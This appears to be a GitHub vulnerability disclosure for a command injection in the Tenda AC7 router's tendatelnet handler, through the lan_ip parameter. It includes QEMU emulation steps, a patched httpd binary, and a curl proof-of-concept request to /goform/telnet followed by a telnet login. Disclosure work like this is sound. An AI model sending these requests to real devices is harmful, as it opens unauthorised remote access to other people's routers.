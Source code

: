 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation
need build Network bridge:

```text-x-haskell
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):
https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

Vulnerability Details
----

**An issue was found in the Tenda AC7 V1.0\_V15.03.06.44 device: the tendatelnet function processes the request in http, does not properly process the parameter lan\_ip, and is directly connected to the doSystem system-level function. This may lead to a command injection vulnerability and may also cause shell metacharacters to be activated. For example, an attacker may use telnet to remotely access the attacked device.**

![image](https://github.com/user-attachments/assets/560f7ed3-c51b-4052-8b54-d9d149461896)


Cross-references reveal that the parent function that calls this function is telnet, and the first-level directory name is goform.


![image](https://github.com/user-attachments/assets/bafe875a-a234-4c27-900f-dc2832326e77)


Proof of Concept
----

```text-x-haskell
curl -i -X POST http://192.168.142.100/goform/telnet -d Raining=Raining --cookie "user=admin" --http0.9
telnet 192.168.142.100 80
```
![image](https://github.com/user-attachments/assets/91ef600d-65a3-4d16-9cd5-965644cdfc3b)
